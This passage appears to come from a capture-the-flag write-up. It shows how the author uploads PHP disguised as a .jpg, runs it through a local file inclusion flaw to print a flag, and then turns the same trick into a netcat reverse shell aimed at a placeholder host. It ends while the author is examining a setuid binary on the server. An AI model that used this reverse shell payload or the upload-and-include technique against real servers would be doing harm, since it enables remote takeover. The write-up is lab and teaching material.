 This code validate that you only upload files with a .jpg or .png extension. If you do it takes the file and move it to `/var/www/uploads/YOUR_SESSION_ID`. 

The code tries to prevent code execution by forcing image files and moving them outside the web root folders. Those measures are easily bypassed with the LFI vulnerability. I can use it to read almost any file on the server. And since the file is read with `include()`, the extension does not matter. Any PHP code in the file will be executed. 

I create a small file called test.jpg to display the content of the `FLAG4` environment variable. 

```php
<?php
echo getenv("FLAG4");
```

Then I navigated to http://www.jamaissansmonriz.com/post.php?postid=/var/www/uploads/28dcoe1sgaiqigl3h1c8uqgpi1/test.jpg and the flag was displayed on the page. 

FLAG{4_good_job_devient_root_maintenant}

## Flag #5

For the last flag, I needed to get access to the server and become root. I used the same vulnerabilities as before to get a reverse shell. 

I modified my fake image to launch the reverse shell. 

```php
<?php
`mkfifo /tmp/kirxhbg; nc MY_IP 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`;
```

On my server I stated a netcat listener. 

```bash
nc -lnvp 4444
```

I then used the LFI to open the fake image and I got a connection on my listener. 

I looked around the server and found two interesting files on the root path. 

```bash
$ ls -la /
...
-rw-rw-r--   1 root root   128 Feb  5 12:24 my_very_special_script.c
-r-sr-xr-x   1 root root 16760 Feb  5 12:26 my_very_special_script.o
...


$ cat /my_very_special_script.c

#include <unistd.h>
#include <stdlib.h>

int main() {
    setuid(1000);
    system("touch /tmp/hello_world");
    return 0; 
}
```
